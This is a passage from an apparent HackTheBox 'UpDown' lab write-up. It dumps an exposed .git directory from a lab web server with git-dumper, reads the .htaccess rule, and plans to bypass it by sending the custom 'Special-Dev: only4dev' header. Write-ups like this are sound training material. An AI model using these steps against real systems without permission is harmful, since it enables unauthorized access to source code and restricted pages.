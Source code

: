 ```
:: Progress: [4614/4614] :: Job [1/1] :: 75 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

`.git/HEAD` would be our target and we can use git-dumper to catch it to our local machine.
```
git-dumper http://siteisup.htb/dev/.git/ ./git-repo-dump
```
Then we get
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/UpDown/git-repo-dump]
└─$ ls -al           
total 40
drwxrwxr-x 3 wither wither 4096 Feb  6 14:51 .
drwxrwxr-x 4 wither wither 4096 Feb  6 14:51 ..
drwxrwxr-x 7 wither wither 4096 Feb  6 14:51 .git
-rw-rw-r-- 1 wither wither  117 Feb  6 14:51 .htaccess
-rw-rw-r-- 1 wither wither   59 Feb  6 14:51 admin.php
-rw-rw-r-- 1 wither wither  147 Feb  6 14:51 changelog.txt
-rw-rw-r-- 1 wither wither 3145 Feb  6 14:51 checker.php
-rw-rw-r-- 1 wither wither  273 Feb  6 14:51 index.php
-rw-rw-r-- 1 wither wither 5531 Feb  6 14:51 stylesheet.css
```
From `.htaccess` we can know why we are forbidden of the sub-domain `dev`
```
cat .htaccess 
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```
Base on on the source code analysis, there are a few things I can try. First, I’ll use an extension like Modify Header Value to set a the custom header:
![](images/Pasted%20image%2020250206150857.png)
Then we can get the page: